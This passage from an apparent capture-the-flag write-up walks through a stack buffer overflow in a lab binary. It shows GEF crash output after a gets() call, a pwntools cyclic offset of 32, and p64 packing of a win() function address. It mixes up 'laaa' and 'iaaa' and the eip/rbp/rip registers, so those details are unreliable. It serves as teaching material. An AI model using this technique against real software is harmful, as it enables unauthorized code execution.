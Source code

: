 ```
0x007fffffffdd08│+0x0020: "saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa[...]"
0x007fffffffdd10│+0x0028: "uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabha[...]"
0x007fffffffdd18│+0x0030: "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"
0x007fffffffdd20│+0x0038: "yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabla[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x55555555524e <main+85>        call   0x555555555080 <gets@plt>
   0x555555555253 <main+90>        mov    eax, 0x0
   0x555555555258 <main+95>        leave  
 → 0x555555555259 <main+96>        ret    
[!] Cannot disassemble from $PC
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "my-first-overfl", stopped 0x555555555259 in main (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555259 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```
we can see that it took "laaa" as the address where to go to for contexte restitution. To get the characters needed to overwrite the `eip` pointer then we needed to give `cyclic` command the sustring that the pointer was overwritend with :

```
cyclic -l iaaa
```

Here is the result

```
32
```

So we need to generate 32 characters to arrive to the `rbp` pointer, then give it the address we want so it jumbs to it after finishing with the vuln function.

```
cyclic 32
```

```
aaaabaaacaaadaaaeaaafaaagaaahaaa
```

**Note :** Note that in the source code we have : `My buffer can only hold 32 characters, I really wonder what would happen if you sent more than that...`, so we could easily guess that the cyclic value is 32

Now that we have th information we needed, we can create our script that exploit the vulnerability in the source code. we will be using `pwn` tools for that : 

 - First, get the byte version of the address found of the `win()` function :

```python
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p64(0x0000000000001199)
b'\x99\x11\x00\x00\x00\x00\x00\x00'
>>> exit
Use exit() or Ctrl-D (i.e. EOF) to exit
>>> exit()
```
